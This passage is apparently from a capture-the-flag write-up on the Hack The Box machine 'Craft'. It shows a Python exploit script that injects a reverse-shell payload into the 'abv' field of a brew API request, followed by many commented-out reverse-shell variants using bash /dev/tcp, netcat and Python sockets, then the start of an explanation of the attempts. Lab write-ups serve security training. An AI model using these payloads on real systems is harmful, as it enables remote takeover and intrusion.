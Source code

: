 conAddr = '10.10.14.88'
conPort = 5555

# Create brew with payload
#payload = "__import__('os').run('bash -i &gt;& /dev/tcp/10.10.14.16/5555')"
#payload = "compile(%s,'','single')" % command
#payload = "__import__('os').popen('nc -e $SHELL 10.10.14.61 5555 &')"
#payload = "compile('for x in range(1):\n import time\n time.sleep(20)','a','single')"
#payload = "__import__('os').system('bash -i &gt;& /dev/tcp/10.10.15.247/5555 0&gt;&1')"
#payload = "__import__('subprocess').Popen('nc 10.10.14.16 5555',shell=True,stdin=subprocess.PIPE,stdout=subprocess.PIPE,stderr=subprocess.PIPE)"
#payload = "__import__('os').exec('import sys,socket,os,pty;s=socket.socket();s.connect(10.10.14.16,5555));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(/bin/sh)')"
#payload = "__import__('subprocess').popen('bash -i &gt;& /dev/tcp/10.10.14.16/5555 0&gt;&1',shell=True)"
#payload = base64 "compile("""for x in range(1):\n import subprocess\n subprocess.check_output(r'$COMMAND',shell=True)""",'','single')"
#payload = "__import__('os').call('bash -i &gt;& /dev/tcp/10.10.14.16/5555 0&gt;&1')"
#payload = "__import__('subprocess').Popen('nc 10.10.15.247 5555 &',shell=True)"
#payload = "compile("""for x in range(1):\\n import socket,subprocess,os\\n s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\\n s.connect(("10.10.14.120",5555))\\n os.dup2(s.fileno(),0)\\n os.dup2(s.fileno(),1)\\n os.dup2(s.fileno(),2)\\n p=subprocess.call(["/bin/sh","-i"])""",'','single')"
#payload = '(import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.24",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]))'
payload = "exec(\"import socket, subprocess\\ns = socket.socket()\\ns.connect((\'%s\',%i))\\nwhile 1:\\n  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)\\n  s.send(proc.stdout.read()+proc.stderr.read())\")" % (conAddr,conPort)

print(payload + '\n')

brew_url = "https://api.craft.htb/api/brew/"
brew_headers = {"X-Craft-API-Token": token,"Content-Type": "application/json"}
brew_data = {"name":"I Ponder Ale","brewer":"Ponder Brewery","style":"IPA","abv":payload}

r = requests.post(brew_url, headers=brew_headers, json=brew_data, verify=False)
print(r.text)
</pre>

That sloppy exploit script actually shows several of my attempts at getting the shellcode to work. I&#8217;ll explain some of the attempts, why they didn&#8217;t work, and what I ended up using.

## Shellcode

There is almost always more than one way to write shellcode for any given exploit. So you may get one to work that I didn&#8217;t.

### Attempt 1, Netcat:

The most obvious shellcode here would be to get brew.py to execute a Netcat command back to a listener on our box. Tried that, didn&#8217;t work. I&#8217;m sure I forgot some of the attempts, but here are some variations I tried. All shellcode attempts were put in a variable called &#8216;payload&#8217;.
